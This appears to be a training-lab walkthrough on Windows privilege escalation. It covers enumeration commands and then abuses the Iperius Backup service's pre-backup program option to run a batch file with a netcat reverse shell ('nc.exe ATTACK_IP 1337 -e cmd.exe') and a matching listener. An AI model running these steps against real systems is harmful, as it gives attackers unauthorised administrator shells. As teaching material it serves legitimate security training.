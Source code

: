 ## Initial Information Gathering

Information gathering is an important step in privilege escalation because this is how you can uncover potential vectors. Some automated scripts are available to quickly enumerate most of the known vectors listed above. However, in real penetration testing engagements, you will often need to do some additional research based on these scripts' results.

A few key points in enumeration are as follows:

Users on the target system. The `net users` command will list users on the target system.  
OS version: The `systeminfo | findstr /B /C: "OS Name"/C: "OS Version"` command will output information about the operating system. This should be used to do further research on whether a privilege escalation vulnerability exists for this version.  
Installed services: the `wmic service list` command will list services installed on the target system  
In a real engagement, you should follow the more extensive list of commands provided in our Windows Privilege Escalation Room.

## Exploitation

The Iperius Backup Service suffers from a privilege escalation vulnerability. McSkidy could use it to elevate her privileges on the system. When Iperius Backup is installed as a service, it can be configured to run backup tasks with administrator privileges even if the current user has a lower privilege level.

Let's explore the exploitation steps:  
1) Create a new backup task: The task itself is not important. You can set the backup path as C:\Users\McSkidy\Documents  
2) Set the destination: From the destination tab, you can set the location where the backup will be written. Again, this is not important; you can set it to C:\Users\McSkidy\Desktop  
3) Other processes: The "other processes" tab is important. As you can see, this gives us the option to set a program to run before or after every backup process. As the backup process is ran with administrator privileges, any program or external file configured here will be ran with administrator privileges. To exploit this, we will create a simple bat file and set it to run before the backup.

The .bat file will launch a shell using the nc.exe utility (conveniently located at C:\Users\McSkidy\Downloads\nc.exe). Launch the Notepad text editor and enter the following lines of code.

`@echo off`  
`C:\Users\McSkidy\Downloads\nc.exe ATTACK_IP 1337 -e cmd.exe`

You will need to replace "`ATTACK_IP`" with your attacking machine's IP address; we recommend starting the AttackBox (blue button at the top of this page).

You can save the file as evil.bat on the desktop of the target system (`<MACHINE_IP>`) and select it by enabling the "run a program or open external file" option. Click OK, and you should see a backup job named "documents" on the Iperius dashboard.

4) Launch a listener: The evil.bat file will launch cmd.exe and connect back to our attacking machine on port 1337. We should have a listener ready to accept this incoming connection. You can launch `nc` on your attacking machine with the `nc -nlvp 1337` command.

5) Run as service: Right-click on the "document" backup job previously created and select the "Run backup as service option".
